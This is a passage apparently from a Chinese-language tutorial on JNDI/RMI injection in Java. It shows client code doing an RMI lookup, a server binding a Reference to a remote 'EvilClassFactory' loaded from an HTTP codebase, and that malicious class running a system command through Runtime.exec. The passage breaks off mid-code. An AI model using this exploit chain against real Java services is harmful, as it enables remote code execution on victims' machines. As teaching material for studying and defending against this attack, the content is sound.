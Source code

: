 ```java
        System.out.println("[*]Using lookup() to fetch object with rmi://127.0.0.1:1099/demo");
        ctx.lookup("demo");
    }

}

```



服务端, `url`**可控**

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {

    public static void main(String args[]) throws Exception {
        String uri = "http://127.0.0.1:8000";
//        if(args.length == 1) {
//            uri = args[0];
//        } else {
//            uri = "http://127.0.0.1/demo.class";
//        }
        System.out.println("[*]classFactoryLocation: " + uri);
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference refObj = new Reference("EvilClass", "EvilClassFactory", uri);
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
        System.out.println("[*]Binding 'demo' to 'rmi://192.168.43.201:1099/demo'");
        registry.bind("demo", refObjWrapper);
    }
}
```



恶意类：

```java
import java.io.BufferedInputStream;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;
import java.util.Hashtable;
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;

public class EvilClassFactory extends UnicastRemoteObject implements ObjectFactory {
    public EvilClassFactory() throws RemoteException {
        super();
        InputStream inputStream;
        try {
        //执行命令，返回命令执行结果
            inputStream = Runtime.getRuntime().exec("ipconfig").getInputStream();
            BufferedInputStream bufferedInputStream = new BufferedInputStream(inputStream);
            BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(bufferedInputStream));
            String linestr;
            while ((linestr = bufferedReader.readLine()) != null){
                System.out.println(linestr);
```